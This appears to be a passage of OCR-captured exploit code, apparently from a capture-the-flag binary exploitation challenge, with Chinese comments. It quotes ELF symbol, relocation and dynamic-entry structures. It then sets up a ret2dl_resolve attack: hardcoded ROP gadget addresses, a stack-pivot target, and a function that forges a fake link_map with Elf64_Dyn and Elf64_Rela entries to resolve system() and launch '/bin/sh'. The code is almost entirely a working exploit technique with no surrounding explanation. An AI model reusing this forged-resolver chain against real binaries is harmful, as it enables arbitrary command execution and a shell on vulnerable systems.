 ```
    Elf64_Word    st_name;        /* Symbol name (string tbl index) */
      unsigned char    st_info;    /* Symbol type and binding */        
      unsigned char st_other;        /* Symbol visibility */              
      Elf64_Section    st_shndx;    /* Section index */                  
      Elf64_Addr    st_value;        /* Symbol value */                   
      Elf64_Xword    st_size;        /* Symbol size */                    
}Elf64_Sym;
 
typedef struct           
{
  Elf64_Addr    r_offset;        /* Address */                         
  Elf64_Xword    r_info;            /* Relocation type and symbol index */
  Elf64_Sxword    r_addend;        /* Addend */                          
}Elf64_Rela;
 
typedef struct          
{
  Elf64_Sxword    d_tag;            /* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;        /* Integer value */
      Elf64_Addr d_ptr;            /* Address value */
    } d_un;
}Elf64_Dyn;
'''

universal_gadget1 = 0x4006AA    #ret2__libc_csu_init
universal_gadget2 = 0x400690
 
Elf64_Sym_len = 0x18 
Elf64_Rela_len = 0x18
write_addr = 0x600ad0 			#任意可写地址，用于转移栈且写入fake_link_map(要确保所有的内容的在可访问地址)
link_map_addr = write_addr+0x18	
rbp = write_addr-8
pop_rdi_ret = 0x4006b3
leave = 0x400618
main = 0x4005E6
 
#fake_Elf64_Dyn_STR_addr = l+0x68  						
#fake_Elf64_Dyn_SYM_addr = l+0x70  
#fake_Elf64_Dyn_JMPREL_addr = l+0xf8
 
l_addr = libc.sym['system'] - libc.sym['__libc_start_main']
#l->l_addr + sym->st_value
# value = DL_FIXUP_MAKE_VALUE (l, l->l_addr + sym->st_value);
 
def fake_link_map_gen(link_map_addr,l_addr,st_value):
    fake_Elf64_Dyn_JMPREL_addr = link_map_addr + 0x18 #指向fake_Elf64_Dyn_JMPREL
    fake_Elf64_Dyn_SYM_addr = link_map_addr + 8
    fake_Elf64_Dyn_STR_addr = link_map_addr
    
    fake_Elf64_Dyn_JMPREL = p64(0) + p64(link_map_addr+0x28)
    fake_Elf64_Dyn_SYM = p64(0) + p64(st_value-8)
    fake_Elf64_rela = p64(link_map_addr - l_addr) + p64(7) + p64(0)
 
    fake_link_map = p64(l_addr)            #0x8
    fake_link_map += fake_Elf64_Dyn_SYM    #0x10
    fake_link_map += fake_Elf64_Dyn_JMPREL #0x10
    fake_link_map += fake_Elf64_rela       #0x18
    fake_link_map += '\x00'*0x28
    fake_link_map += p64(fake_Elf64_Dyn_STR_addr) #link_map_addr + 0x68
    fake_link_map += p64(fake_Elf64_Dyn_SYM_addr) #link_map_addr + 0x70
    fake_link_map += '/bin/sh\x00'.ljust(0x80,'\x00')
```